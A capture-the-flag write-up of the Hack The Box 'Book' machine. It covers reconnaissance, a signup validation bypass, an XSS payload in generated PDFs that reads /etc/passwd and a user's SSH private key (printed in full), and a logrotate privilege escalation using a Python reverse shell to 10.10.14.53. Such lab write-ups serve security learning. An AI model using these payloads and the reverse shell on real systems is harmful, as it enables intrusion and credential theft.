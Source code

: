```yaml
---
title: "[HTB] Book WriteUp"
date: 2020-07-11T12:00:00-00:00
categories:
  - Hack The Box
excerpt: "Book is a medium difficulty machine on Hack the Box. As always we begin by running an nmap scan."
header:
  teaser: "/assets/book/book.jpg"
tags:
  - HTB
  - Hack The Box
  - Book
  - WriteUp
---
```


![Book]({{ site.url }}{{ site.baseurl }}/assets/book/book.jpg)


Book is a medium difficulty machine on Hack the Box. 

As always we begin by running an nmap scan.

```bash
nmap -sC -sV -oN scans/nmap 10.10.10.176
```
```bash
# Nmap 7.80 scan initiated Thu May 14 18:48:42 2020 as: nmap -sC -sV -oN scans/nmap 10.10.10.176
Nmap scan report for 10.10.10.176
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 14 18:48:50 2020 -- 1 IP address (1 host up) scanned in 8.18 seconds

```


There are two open ports 22 and 80, lets look at the website on port 80.

![Login]({{ site.url }}{{ site.baseurl }}/assets/book/login.jpg)

We get a login page, so lets sign up. When we sign in we arrive at a Library's website. 

![Library]({{ site.url }}{{ site.baseurl }}/assets/book/library.jpg)

After poking around a bit we find there is an admin account admin@book.htb on the contact page. We also see that the user's page signifies the users role. There is also an upload function on the collections page.

Running Dirbuster also finds a /admin/ page.

We can try signing up for an account using the existing admin@book.htb account. Using BurpSuite we must pad out the request to 21 characters in order to bypass the JavaScript form validation. We can do this with spaces, the final character is arbitrary.

```
name=admin&email=admin@book.htb      X&password=password1
```

After logging in to the admin account we see in the user settings that the account only has 'User' role. Using the admin credentials on the /admin/ page doesn't work. If we repeat the process but change the name to admin1 we are able to login to the admin page. 

On the Collections page, the admin is able to download the collection as a PDF. The site generates these PDFs using the info supplied by the user, so we can use DOM manipulation to execute javascript, as described in this article 

[www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

The following payload will return /etc/passwd

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

After downloading the collections PDF we get /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:GnatsBug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd NetworkManagement,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemdResolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

We can see there is a user called reader, we can try to get the SSH key for this user by modifying our payload slightly.

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

After downloading the collections PDF again we get an SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```


We can now SSH in as reader@10.10.10.176.

We find User.txt in the home folder.

![Reader]({{ site.url }}{{ site.baseurl }}/assets/book/reader.jpg)

### Priv Esc

I start by running linPeas, which finds some interesting things

![linpeas]({{ site.url }}{{ site.baseurl }}/assets/book/linpeas.jpg)

We see that this machine is vulnerable to Logrotate exploitation. We can write to the log files in the backups folder in reader's home directory. Following the links from linPeas we get an exploit that we can use. [Logrotten](https://github.com/whotwagner/logrotten).

We transfer this to the target machine using wget. Then compile it:

```bash
reader@book:~ gcc -o logrotten logrotten.c
```

Then we will need a payload, We can use a python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then set up a listener on the attacking machine.

```bash
nv -lvnp 9001
```

Then execute the exploit

```bash
reader@book:~ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating backups/access.log...
```

If we now write random data to the log, it should trigger our payload.

```bash
head -c 10M < /dev/urandom > access.log
```

And we get a reverse shell!

I found the shell was very unstable so had to quickly cat root.txt before the shell dropped.